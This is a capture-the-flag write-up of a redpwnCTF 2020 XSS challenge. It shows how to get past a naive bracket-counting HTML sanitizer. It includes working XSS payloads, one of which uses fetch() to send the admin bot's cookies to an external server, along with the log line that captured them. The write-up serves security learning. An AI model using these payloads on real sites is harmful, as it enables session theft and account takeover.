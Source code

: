 # static-pastebin

The `/paste` route takes a base64 hash value, runs it through a `clean` function and then uses `element.innerHTML=...` to set it.  It looks like we should be able to
get XSS if we can bypass the `clean` function.  Lets take a look at it

```javascript
function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```

So it looks like this is defeatable if we add in a `>` character prior to the opening of a tag, and then a second `<` after the close of the tag.  Only problem with
script tags, is I don't think there's a valid javascript command that starts with a `<` and I'm not sure we can comment it out.  So lets just keep the javascript
inside the single tag itself with

```
><img src=x onerror=alert(1)><
```

When we base64 encode this and navigate to `https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjPXggb25lcnJvcj1hbGVydCgxKT48` we get the alert, success!  The
second part of the challenge is that we can report a URL to the admin.  Lets modify our payload and see if the admin has access to any interesting cookie values:

```
><img src=x onerror="fetch('https://www.zoeyinthe.cloud/'+btoa(document.cookie));"><
```

Then after base64 encoding the URL we end up with is `https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjPXggb25lcnJvcj0iZmV0Y2goJ2h0dHBzOi8vd3d3LnpvZXlpbnRoZS5jbG91ZC8nK2J0b2EoZG9jdW1lbnQuY29va2llKSk7Ij48`.
Lets send this to the admin.  We'll need to do this manually in the browser given the recaptcha challenge.  We drop the URL into the form, and then go to check
the logs on our server:

```
107.178.229.236 - - [22/Jun/2020:02:59:57 +0000] "GET /ZmxhZz1mbGFnezU0bjF0MXo0dDEwbl9rMW5kNF9oNHJkfQ== HTTP/1.1" 404 199 "https://static-pastebin.2020.redpwnc.tf/paste/" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/83.0.4103.0 Safari/537.36"
```